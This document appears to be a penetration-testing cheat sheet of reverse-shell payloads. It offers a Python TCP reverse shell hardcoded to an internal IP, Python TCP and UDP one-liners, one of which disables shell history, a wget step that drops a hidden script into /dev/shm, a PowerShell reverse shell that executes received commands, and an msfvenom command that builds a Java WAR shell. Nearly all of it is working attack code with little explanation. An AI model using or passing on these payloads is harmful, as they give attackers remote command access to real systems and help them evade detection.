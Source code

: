 ```
#!/usr/bin/env python
import socket,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.11.0.179",443))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
os.system("/bin/sh -i")
```

```
python -c “import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('IP',443));\
os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);os.system('/bin/sh -i')”
```

UDP

```
python -c 'import socket,pty,os;lhost = "IP"; lport = 100;\
s = socket.socket(socket.AF_INET, socket.SOCK_DGRAM); s.connect((lhost, lport));\
os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);\
os.putenv("HISTFILE","/dev/null"); pty.spawn("/bin/bash"); s.close();'
```

## Python PTY Shells python-pty-shells

### Can be very good

```
simpleHTTPServer
wget ... -O /dev/shm/.rev.py
python tcp_pty_shell_handler -b ip:port
```

## **Windows - Powershell Oneliner RevShell**

```pwsh
###Change IP

$client = New-Object System.Net.Sockets.TCPClient("{{IP_ADDRESS}},1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex ". { $data } 2>&1" | Out-String ); $sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Windows - WAR Reverse Shell

### Build the payload

```
msfvenom -p java/shell_reverse_tcp LHOST=IP LPORT=443 -f war -o shell.war
```
